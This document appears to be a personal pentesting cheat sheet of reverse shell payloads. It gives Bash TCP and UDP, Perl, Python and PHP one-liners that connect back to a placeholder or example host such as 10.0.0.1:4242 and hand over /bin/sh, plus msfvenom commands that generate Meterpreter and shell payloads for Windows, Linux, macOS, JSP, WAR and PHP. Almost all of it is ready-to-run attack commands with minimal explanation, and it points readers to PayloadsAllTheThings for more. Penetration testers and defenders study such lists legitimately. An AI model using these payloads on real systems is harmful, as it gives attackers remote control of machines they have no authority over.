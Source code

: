 # Reverse Shells

MANY more on [PayloadAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThings/) - These are my more commonly used ones

## Bash <a href="#bash-tcp" id="bash-tcp"></a>

### TCP <a href="#bash-tcp" id="bash-tcp"></a>

```
bash -i >& /dev/tcp/IP/port 0>&1

0<&196;exec 196<>/dev/tcp/IP/port; sh <&196 >&196 2>&196

/bin/bash -l > /dev/tcp/IP/port 0<&1 2>&1
```

### UDP <a href="#bash-udp" id="bash-udp"></a>

```
Victim:
sh -i >& /dev/udp/IP/port 0>&1

Listener:
nc -u -lvp port
```

## PERL

```
perl -e 'use Socket;$i="10.0.0.1";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'


NOTE: Windows only
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

## Python

### IPv4

```
export RHOST="IP";export RPORT=port;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

```
python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",port));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
```

### IPv4 (No Spaces)

```
python -c 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

```
python -c 'socket=__import__("socket");subprocess=__import__("subprocess");os=__import__("os");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

```
python -c 'socket=__import__("socket");subprocess=__import__("subprocess");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",port));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
```

```
python -c 'a=__import__;s=a("socket");o=a("os").dup2;p=a("pty").spawn;c=s.socket(s.AF_INET,s.SOCK_STREAM);c.connect(("IP",port));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
```

```
python -c 'a=__import__;b=a("socket");p=a("subprocess").call;o=a("os").dup2;s=b.socket(b.AF_INET,b.SOCK_STREAM);s.connect(("IP",port));f=s.fileno;o(f(),0);o(f(),1);o(f(),2);p(["/bin/sh","-i"])'
```

```
python -c 'a=__import__;b=a("socket");c=a("subprocess").call;s=b.socket(b.AF_INET,b.SOCK_STREAM);s.connect(("IP",port));f=s.fileno;c(["/bin/sh","-i"],stdin=f(),stdout=f(),stderr=f())'
```

```
python -c 'a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("IP",port));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
```

```
python -c 'a=__import__;b=a("socket").socket;p=a("subprocess").call;o=a("os").dup2;s=b();s.connect(("IP",port));f=s.fileno;o(f(),0);o(f(),1);o(f(),2);p(["/bin/sh","-i"])'
```

```
python -c 'a=__import__;b=a("socket").socket;c=a("subprocess").call;s=b();s.connect(("IP",port));f=s.fileno;c(["/bin/sh","-i"],stdin=f(),stdout=f(),stderr=f())'
```

## PHP <a href="#php" id="php"></a>

```
php -r '$sock=fsockopen("IP",port);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("IP",port);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("IP",port);`/bin/sh -i <&3 >&3 2>&3`;'
php -r '$sock=fsockopen("IP",port);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("IP",port);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("IP",port);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
php -r '$sock=fsockopen("IP",port);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

## Meterpreter <a href="#ruby" id="ruby"></a>

### Windows Staged reverse TCP <a href="#windows-staged-reverse-tcp" id="windows-staged-reverse-tcp"></a>

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=port -f exe > reverse.exe
```

### Windows Stageless reverse TCP <a href="#windows-stageless-reverse-tcp" id="windows-stageless-reverse-tcp"></a>

```
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=port -f exe > reverse.exe
```

### Linux Staged reverse TCP <a href="#linux-staged-reverse-tcp" id="linux-staged-reverse-tcp"></a>

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=port -f elf >reverse.elf
```

### Linux Stageless reverse TCP <a href="#linux-stageless-reverse-tcp" id="linux-stageless-reverse-tcp"></a>

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=IP LPORT=port -f elf >reverse.elf
```

### Other

```
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="IP" LPORT=port -f elf > shell.elf
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="IP" LPORT=port -f exe > shell.exe
$ msfvenom -p osx/x86/shell_reverse_tcp LHOST="IP" LPORT=port -f macho > shell.macho
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="IP" LPORT=port -f asp > shell.asp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="IP" LPORT=port -f raw > shell.jsp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="IP" LPORT=port -f war > shell.war
$ msfvenom -p cmd/unix/reverse_python LHOST="IP" LPORT=port -f raw > shell.py
$ msfvenom -p cmd/unix/reverse_bash LHOST="IP" LPORT=port -f raw > shell.sh
$ msfvenom -p cmd/unix/reverse_perl LHOST="IP" LPORT=port -f raw > shell.pl
$ msfvenom -p php/meterpreter_reverse_tcp LHOST="IP" LPORT=port -f raw > shell.php; cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
